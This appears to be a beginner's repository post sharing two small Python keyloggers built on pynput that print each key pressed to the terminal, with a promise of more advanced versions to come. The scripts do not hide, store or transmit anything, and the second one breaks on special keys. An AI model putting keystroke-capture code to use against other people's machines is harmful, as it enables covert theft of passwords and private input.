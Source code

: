 # keylogger

it is an mini keylogger which prints all key strokes typed in our terminal(iam using in kali)

iam attaching the python file and code here;)



<code starts here>


import pynput.keyboard


def callback_function(key):
    print(key)

keylogger_listener = pynput.keyboard.Listener(on_press=callback_function)
with keylogger_listener:
    keylogger_listener.join()
    
    
    <code ends here>
    
    
    
    
    
    
    this code is little bit different compared to 1st one kindly use and explore yourself
(ill upload new keyloggers which has different features and advancements hope it will be usefull:) 


<code starts here>


import pynput.keyboard

log = ""

def callback_function(key):
    global log
    log = log + str(key.char)
    print(log)
keylogger_listener = pynput.keyboard.Listener(on_press=callback_function)
with keylogger_listener:
    keylogger_listener.join()
    
    
    <code ends here>
